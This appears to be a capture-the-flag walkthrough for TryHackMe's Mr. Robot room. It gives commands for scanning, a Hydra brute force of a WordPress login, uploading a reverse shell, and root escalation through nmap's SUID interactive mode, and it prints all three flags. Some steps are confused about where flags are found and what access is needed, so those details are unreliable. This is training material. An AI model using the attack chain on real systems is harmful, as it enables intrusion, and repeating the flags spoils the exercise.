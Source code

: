 ```yaml
---
title: "TryHackMe - Mr. Robot CTF Walkthrough"
date: 2024-12-15
categories: [TryHackMe]
tags: [CTF, WordPress, Privilege Escalation, SUID, Reverse Shell]
image: assets/images/Mr-Robot-cover.jpg
---
```


# TryHackMe - Mr. Robot CTF Walkthrough

---

## Step 1: Network Scanning
Conduct a network scan to identify open ports and running services on the target.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt <TARGET_IP> 
```

### Result:
- **Open Ports Found**:
  - Port 80: HTTP Service
  - Port 443: HTTPS Service
  - Port 22: SSH Service

---

## Step 2: Directory Enumeration
Perform directory enumeration using Gobuster to find hidden directories or files.

```bash
sleep33@THM:~$ gobuster dir -u http://<TARGET_IP>/ -w /path/to/wordlist.txt
```

### Result:
- **Discovered Directories**:
  - `/robots.txt`
  - `/fsocity.dic`
  - `/key-1-of-3.txt`

---

## Step 3: First Flag
Using the discovered `/robots.txt` file, locate and read the first flag.

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/robots.txt
```

### Result:
Contents of `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/key-1-of-3.txt
```

**Flag 1:**
```
073403c8a58a1f80d943455fb30724b9
```

---

## Step 4: Exploring `fsocity.dic` File
Download and examine the `fsocity.dic` file, which contains a wordlist that may be useful for brute-forcing.

```bash
sleep33@THM:~$ wget http://<TARGET_IP>/fsocity.dic
```

### Result:
The file is a large wordlist containing potential usernames and passwords.

---

## Step 5: Brute-forcing WordPress Login
Attempt brute-forcing the WordPress login page using `fsocity.dic` as a wordlist to guess the username and password.

```bash
sleep33@THM:~$ hydra -L fsocity.dic -P fsocity.dic <TARGET_IP> http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

### Credentials Found:
- **Username**: `elliot`
- **Password**: `ER28-0652`

---

## Step 6: Accessing WordPress and Uploading a Reverse Shell
Log in to the WordPress admin panel and upload a reverse shell to gain a foothold.

### Reverse Shell Code:
Use a PHP reverse shell script and configure it to connect back to your machine.

---

## Step 7: Gaining Shell Access
Trigger the reverse shell by accessing the uploaded file and listen on a port to catch the shell.

```bash
sleep33@THM:~$ nc -lvnp <PORT>
```

---

## Step 8: Privilege Escalation - SUID Binary
Find files with the SUID bit set to check for potential privilege escalation paths.

```bash
sleep33@THM:~$ find / -perm -4000 2>/dev/null
```

### SUID Binary Found:
- `nmap`

### Using Nmap in Interactive Mode to Gain Root Access
Launch Nmap in interactive mode and access a root shell.

```bash
sleep33@THM:~$ nmap --interactive
```

```bash
nmap> !sh
# whoami
root
```

---

## Step 9: Finding the Second Flag
With root access, locate the second flag.

```bash
sleep33@THM:~$ cat /root/key-2-of-3.txt
```

**Flag 2:**
```
822c73956184f694993bede3eb39f959
```

---

## Step 10: Locating the Third Flag
Search the home directory of the `robot` user for the final flag.

```bash
sleep33@THM:~$ cat /home/robot/key-3-of-3.txt
```

### Password Prompt:
You may encounter an encrypted flag, requiring the robot user’s password. You can check if `robot` has any passwords or if SSH keys are present to unlock this file.

**Flag 3:**
```
04787ddef27c3dee1ee161b21670b4e4
```

---

## Summary
In this walkthrough, we scanned the target, enumerated directories, used a dictionary attack to gain WordPress access, uploaded a reverse shell, escalated privileges using an SUID binary (`nmap`), and retrieved all flags. 

### Flags Summary:
- **Flag 1**: `073403c8a58a1f80d943455fb30724b9`
- **Flag 2**: `822c73956184f694993bede3eb39f959`
- **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

---
